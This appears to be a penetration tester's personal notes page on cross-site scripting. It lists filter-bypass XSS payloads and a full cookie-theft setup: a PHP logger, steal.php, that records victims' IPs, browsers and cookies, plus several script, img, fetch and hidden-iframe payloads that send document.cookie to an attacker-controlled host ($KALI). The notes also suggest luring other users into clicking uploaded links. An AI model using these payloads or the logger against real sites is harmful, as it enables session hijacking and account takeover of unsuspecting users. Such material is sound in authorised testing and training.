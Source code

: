#### Payload all the things resource:
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
```
#### Test for XSS
Check if HttpOnly is disabled.
[[1._rlwrap]]
![[Pasted image 20220926131911.png]]
```
<img+src%3dhttp%3a//$KALI/x+/>>
```
![[Pasted image 20220926131833.png]]
#### steal.php
Save on to kali as `/var/www/html/steal.php`
```php - kali
<?php
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fn="log.txt";
$fh=fopen($fn,'a');
$cookie=$_GET['q'];
fwrite($fh, $ip.' '.$browser. ' '.$cookie. " \n");
fclose($fh);
echo "Thanks for your info" . $_POST['name'] . "!!!";
?>
```
```bash - kali
sudo chmod 777 /var/www/html/steal.php
```
```bash - kali
service apache2 start
```
[[Python#Server]]
```html - target
<script>var i=new Image();i.src="http://$KALI/steal.php?q="+document.cookie;</script>
```
now just view the log:
```firefox
127.0.0.1/log.txt
```
Can also be used in file uploads if it allows! Try finding uploaded URL and send that link out for others to click!
#### Base64 encode
The btoa() function is used to encode the cookies as base64 and then append it to the IP address. URL encode this payload and repeat the request.
[[1._rlwrap]]
```
<img src=x onerror=this.src='http://$KALI/?cookies='+btoa(document.cookie)
/>
```
Now decode the base64 value.  Remember `%3D` is `=`.
#### New Awesome payload
Replaces `<script>alert(1)</script>`
```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```
#### Basic payloads
```html
<script>alert('XSS')</script>
```
```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```
```html
"><script>alert('XSS')</script>
```
```html
"><script>alert(String.fromCharCode(88,83,83))</script>
```
```html
<script>\u0061lert('22')</script>
```
```html
<script>eval('\x61lert(\'33\')')</script>
```
```html
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
```
```html
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
```
#### Img payloads
```html
<img src=x onerror=alert('XSS');>
```
```html
<img src=x onerror=alert('XSS')//
```
```html
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```
```html
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```
```html
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```
```html
"><img src=x onerror=alert('XSS');>
```
```html
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```
Svg payloads
```html
<svgonload=alert(1)>
```
```html
<svg/onload=alert('XSS')>
```
```html
<svg onload=alert(1)//
```
```html
<svg/onload=alert(String.fromCharCode(88,83,83))>
```
```html
<svg id=alert(1) onload=eval(id)>
```
```html
"><svg/onload=alert(String.fromCharCode(88,83,83))>
```
```html
"><svg/onload=alert(/XSS/)
```
```html
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
```
```html
<svg><script>alert('33')
```
```html
<svg><script>alert&lpar;'33'&rpar;
```
// Div payload
```html
<div onpointerover="alert(45)">MOVE HERE</div>
```
```html
<div onpointerdown="alert(45)">MOVE HERE</div>
```
```html
<div onpointerenter="alert(45)">MOVE HERE</div>
```
```html
<div onpointerleave="alert(45)">MOVE HERE</div>
```
```html
<div onpointermove="alert(45)">MOVE HERE</div>
```
```html
<div onpointerout="alert(45)">MOVE HERE</div>
```
```html
<div onpointerup="alert(45)">MOVE HERE</div>
```
#### Example 1
- Something reflected on page?
	- `?default=English` : XSS
	- Test by changing value : `?default=AAAAA`
	- Inspect page:
	![[Pasted image 20220902124919.png]]
From the image above, we see we need to close out the option value  (`'>`), the options tag (`</option>`), and the select tag (`</select>`).  Then, create a h1 tag to test reflection on page.  Should see big bold TEST on page.
?default=
```html
'></option></select><h1>TEST</h1>
```
Next, try introducing script tag:
```html
'></option></select><script>alert('XSS')</script>
```
Using this to redirect user to other website:
```html
'></option></select><script>document.location.href="http://$KALI"</script>
```
If script tag is being filtered:
```html
'></option></select><img src=x onerror="alert('XSS')"/>
```
If there is an input box that reflects to page:
`<h1>Test</h1>`
![[Pasted image 20220902130252.png]]
`<script>alert('XSS')</script>`
If does not work, try bypass methods (`<SCRIPT>`, or `<SCRSCRIPTIPT>`)
XSS Filter bypass URL Encoding:
The "/" character is being filtered below:
![[Pasted image 20220905132535.png]]
`encodeURIComponent("<h1>Test</h1>");`
![[Pasted image 20220905132518.png]]
Testing input boxes:
![[Pasted image 20220902130624.png]]
![[Pasted image 20220902130644.png]]
Once found, set up listener and input script tag to steal cookies:
[[1._rlwrap]]
```html
<script>fetch('http://$KALI:80/'+document.cookie); /script>
```
Just modify cookie value in browser for win.
#### iframe test
[[1._rlwrap]]
```html
<iframe src=http://$KALI/report height="0" width="0"></iframe>
```
When a user connects to the page, we will receive there browser details:
![[Pasted image 20220505155251.png]]
#### Stealing Cookies and Session Information
[[1._rlwrap]]
```html
<script>new Image().src="http://$KALI/cool.jpg?output="+document.cookie;</script>
```
